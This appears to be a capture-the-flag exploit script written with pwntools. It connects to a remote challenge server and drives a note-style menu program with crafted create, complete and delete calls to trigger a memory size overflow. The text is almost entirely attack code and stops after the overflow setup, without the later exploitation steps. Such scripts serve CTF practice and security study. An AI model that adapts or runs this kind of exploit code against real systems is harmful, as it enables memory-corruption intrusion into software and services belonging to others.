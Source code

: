 ### exp
```py
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
# p = process("./prob")
p = remote("43.203.168.199",13379)
libc = ELF("./libc.so.6")
def create(idx,title,desc):
    p.recvuntil("> ")
    p.sendline("1")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Title: ")
    p.send(title)
    p.recvuntil("Desc : ")
    p.send(desc)

def edit(idx,desc):
    p.recvuntil("> ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Desc : ")
    p.send(desc)

def show(idx):
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def complete(idx):
    p.recvuntil("> ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def load(no,idx):
    p.recvuntil("> ")
    p.sendline("5")
    p.recvuntil("No : ")
    p.sendline(str(no))
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def delete(idx):
    p.recvuntil("> ")
    p.sendline("6")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

create(4,b"||"+b"a"*0xd,b"a"*0x10)
create(2,b"||"+b"a"*0xd,b"a"*0x10)
create(0,b"||"+b"a"*0xd,b"a"*0x11)
create(1,b"a"*0xd,b"a"*0x18)
complete(1) # normal no 0
delete(1)
complete(0) # overflow size no 1
# gdb.attach(p,'''
# b* $rebase(0x202c)
# b* $rebase(0x209e)
# b* $rebase(0x1e1b)
# ''')
```
